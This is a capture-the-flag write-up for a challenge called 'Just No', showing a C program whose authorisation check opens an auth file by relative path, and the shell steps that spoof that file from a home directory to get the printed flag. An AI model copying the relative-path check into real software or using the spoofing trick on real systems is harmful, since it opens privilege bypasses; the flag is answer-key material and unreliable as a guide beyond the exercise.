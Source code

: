 # Just No

```
A program at /problems/f934d9ca116fb6e3e89cc85baaca028c has access to a flag but refuses to share it. Can you convince it otherwise?
HINTS
Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?
```

Looking at the source code for the binary in the directory we can see that it loads an auth file from ```../../problems/f934d9ca116fb6e3e89cc85baaca028c``` and gives the flag if the auth file contains anything other than no.

```C
int main(int argc, char **argv){
  FILE* authf = fopen("../../problems/f934d9ca116fb6e3e89cc85baaca028c/auth","r"); //access auth file in ../../../problems/f934d9ca116fb6e3e89c\
c85baaca028c                                                                                                                                    
  if(authf == NULL){
    printf("could not find auth file in ../../problems/f934d9ca116fb6e3e89cc85baaca028c/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/f934d9ca116fb6e3e89cc85baaca028c/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
}
```

The path used is a relative path. It goes 2 directories up and then down into ```problems/f934d9ca116fb6e3e89cc85baaca028c```. When this binary is run from the /problems/f934d9ca116fb6e3e89cc85baaca028c directory it references the correct auth file. But if we run it from a different directory we can create an arbitrary auth file ```../../problems/f934d9ca116fb6e3e89cc85baaca028c/auth``` like so. 

We create the necessary directories in our home folder.

```
$ mkdir problems
$ mkdir problems/f934d9ca116fb6e3e89cc85baaca028c
$ 
```

Then we create an auth file containing something other than 'no.'

```
$ echo 'yes' > problems/f934d9ca116fb6e3e89cc85baaca028c/auth
```

Then we cd to that directory and run the binary. It reads our modified auth file and we get the flag.

```
$ cd f934d9ca116fb6e3e89cc85baaca028c/
$ /problems/f934d9ca116fb6e3e89cc85baaca028c/justno
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 06265e758df65642853687376dab0ad6
$ 
```